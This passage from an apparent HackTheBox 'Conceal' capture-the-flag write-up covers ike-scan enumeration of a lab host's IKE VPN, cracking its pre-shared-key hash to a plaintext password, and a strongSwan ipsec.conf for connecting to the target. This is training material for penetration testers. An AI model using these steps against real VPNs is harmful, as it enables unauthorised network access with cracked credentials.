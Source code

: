 We have the IKE VPN password PSK Hash : `9C8B1A372B1878851BE2C097031B6E43`
![[Pasted image 20210710171702.png]]
It turns out that it is an `NTLM` hash and it translates to `Dudecake1!`.

```python
┌─[Magisk@Xyan1d3]─[10.10.14.18]─[~/htb/conceal]
└──╼ # ike-scan -M --showbackoff 10.10.10.116
Starting ike-scan 1.9.4 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.10.116    Main Mode Handshake returned
        HDR=(CKY-R=8c1579e875ff8c9d)
        SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration(4)=0x00007080)
        VID=1e2b516905991c7d7c96fcbfb587e46100000009 (Windows-8)
        VID=4a131c81070358455c5728f20e95452f (RFC 3947 NAT-T)
        VID=90cb80913ebb696e086381b5ec427b1f (draft-ietf-ipsec-nat-t-ike-02\n)
        VID=4048b7d56ebce88525e7de7f00d6c2d3 (IKE Fragmentation)
        VID=fb1de3cdf341b7ea16b7e5be0855f120 (MS-Negotiation Discovery Capable)
        VID=e3a5966a76379fe707228231e5ce8652 (IKE CGA version 1)

IKE Backoff Patterns:

IP Address      No.     Recv time               Delta Time
10.10.10.116    1       1625901944.968092       0.000000
10.10.10.116    Implementation guess: Linksys Etherfast

Ending ike-scan 1.9.4: 1 hosts scanned in 60.164 seconds (0.02 hosts/sec).  1 returned handshake; 0 returned notify
```

- Encryption : `3DES`
- Hash : `SHA1`
- Group2 : `modp1024`
- Auth : `PSK`
- IKE Duration : `28800s`
- PSK Password : `Dudecake1!`

We could now use `strongswan` inorder to establish a connection as a `VPN`.

We have to edit the file `/etc/ipsec.conf` wich this configuration.
```python
# ipsec.conf - strongSwan IPsec configuration file

# basic configuration
config setup
    charondebug="all"
    uniqueids=yes
    strictcrlpolicy=no

conn conceal
        type=transport
        auto=start
        keyexchange=ikev1
        authby=psk
        left=10.10.14.18
        leftprotoport=tcp
        right=10.10.10.116
        rightprotoport=tcp
        ike=3des-sha1-modp1024
        esp=3des-sha1
        ikelifetime=28800s
        lifetime=3600s
```
